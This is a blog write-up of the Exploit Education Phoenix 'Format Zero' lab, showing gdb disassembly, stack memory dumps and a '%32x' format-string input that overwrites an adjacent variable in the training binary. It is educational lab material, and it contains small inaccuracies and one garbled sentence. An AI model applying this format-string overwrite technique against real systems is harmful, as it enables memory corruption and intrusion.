 ```yaml
---
layout: post
title: Format Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Format Zero exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Format Zero exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Zero challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/).

### Disassemble

Disassembling the code will get you overall idea behind the format-zero code, One can use `gdb ./format-zero` to start debugging it in runtime.

1. `gdb ./format-zero`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     sub    rsp,0x50
   0x00000000004006a5 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004006a8 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004006ac <+15>:    mov    edi,0x400790
   0x00000000004006b1 <+20>:    call   0x4004e0 <puts@plt>
   0x00000000004006b6 <+25>:    mov    rdx,QWORD PTR [rip+0x200423]        # 0x600ae0 <stdin>
   0x00000000004006bd <+32>:    lea    rax,[rbp-0x40]
   0x00000000004006c1 <+36>:    mov    esi,0xf
   0x00000000004006c6 <+41>:    mov    rdi,rax
   0x00000000004006c9 <+44>:    call   0x4004d0 <fgets@plt>
   0x00000000004006ce <+49>:    test   rax,rax
   0x00000000004006d1 <+52>:    jne    0x4006e7 <main+74>
   0x00000000004006d3 <+54>:    mov    esi,0x4007dc
   0x00000000004006d8 <+59>:    mov    edi,0x1
   0x00000000004006dd <+64>:    mov    eax,0x0
   0x00000000004006e2 <+69>:    call   0x4004f0 <errx@plt>
   0x00000000004006e7 <+74>:    mov    BYTE PTR [rbp-0x31],0x0
   0x00000000004006eb <+78>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f2 <+85>:    lea    rdx,[rbp-0x40]
   0x00000000004006f6 <+89>:    lea    rax,[rbp-0x30]
   0x00000000004006fa <+93>:    mov    rsi,rdx
   0x00000000004006fd <+96>:    mov    rdi,rax
   0x0000000000400700 <+99>:    mov    eax,0x0
   0x0000000000400705 <+104>:   call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:   mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070d <+112>:   test   eax,eax
   0x000000000040070f <+114>:   je     0x40071d <main+128>
   0x0000000000400711 <+116>:   mov    edi,0x4007f8
   0x0000000000400716 <+121>:   call   0x4004e0 <puts@plt>
   0x000000000040071b <+126>:   jmp    0x400727 <main+138>
   0x000000000040071d <+128>:   mov    edi,0x400830
   0x0000000000400722 <+133>:   call   0x4004e0 <puts@plt>
   0x0000000000400727 <+138>:   mov    edi,0x0
   0x000000000040072c <+143>:   call   0x400510 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-zero using gdb to view the assembly instruction, you may notice the puts, greet, strncpy and strcpy function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Declares `locals` struct with `char dest[32]` and `volatile int changeme` 
3. Utilizes `fgets` to collect user input and transfers to the buffer with `buffer` size as limit.
4. Assigns struct variable `locals.changeme` as `zero`
5. Formats `buffer` variables using `sprintf` and saves in `locals.dest` 
6. Verifies that if `locals.changeme` variables for changes.

### Memory Allocation

 If you take closer look at the memory allocation, every variables declared in the program are allocated in the stack (static). The locals struct contains both `char dest[32]` and `int changeme` variables packed. Additionally, `buffer` char array with size of 16 is allocated next to the struct `locals`. Technically, you can't basically overwrite the `struct` with `buffer` char array. However, things get tricky when the program starts using `sprintf` function to format the `buffer` char array and writes back to `locals.dest` buffer.

 Basically, Format String vulnerability happens because certain type of inputs ( such as `%32x`) as format string modifier to `sprintf` causes the function to expand and write `approximately 32 bytes` into `locals.dest` variable. `sprintf(locals.dest, '%32x')` has special meaning within the function to expand this modifier into memory address in stack say range upto 32 bytes and then copies back to `locals.dest` thus overwriting both locals.dest as well as `locals.changeme` variable in memory.

#### State of memory before executing exploit
 ```
 (gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x41414141      0x00000a41      0x00000000      0x00000000
0x7fffffffe630: 0x41414141      0x00000a41      0xffffe6b8      0x00007fff
0x7fffffffe640: 0x00000001      0x00000000      0xffffe6c8      0x00007fff
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000
(gdb) x/16x $rbp-0x10
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000  # <-- 0x7fffffffe650 - Zero
0x7fffffffe660: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe670: 0x00000000      0x00000000      0xffffe6b0      0x00007fff
0x7fffffffe680: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
```

#### State of memory after executing exploit (Overwritten by sprintf function)
 ```shell
(gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x25414141      0x0a783233      0x00000000      0x00000000
0x7fffffffe630: 0x20414141      0x20202020      0x20202020      0x20202020
0x7fffffffe640: 0x20202020      0x20202020      0x66202020      0x65666666
0x7fffffffe650: 0x0a303236      0x00000000      0x00000000      0x00000000
(gdb) x/16x $rbp-0x10
0x7fffffffe650: 0x0a303236      0x00000000      0x00000000      0x00000000 # <-- 0x7fffffffe650 - 0x0a303236
0x7fffffffe660: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe670: 0x00000000      0x00000000      0xffffe6b0      0x00007fff
0x7fffffffe680: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
```

### Exploit

Now, our strategy should be,

1. Input `format string` as `%32x`
2. Now, `sprintf` overwrites the `locals.dest` using random address from stack completely overwriting  `32 characters` in the memory including
`locals.changeme` variable which sits next to `locals.dest`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32x
Well done, the 'changeme' variable has been changed!
```

There you go! 🎉 You've officially `pwned` the may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/htb-sherlock.webp)

### Source and Reference:

1. Format Zero Exercise: [Exploit Education](https://exploit.education/phoenix/format-zero/)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
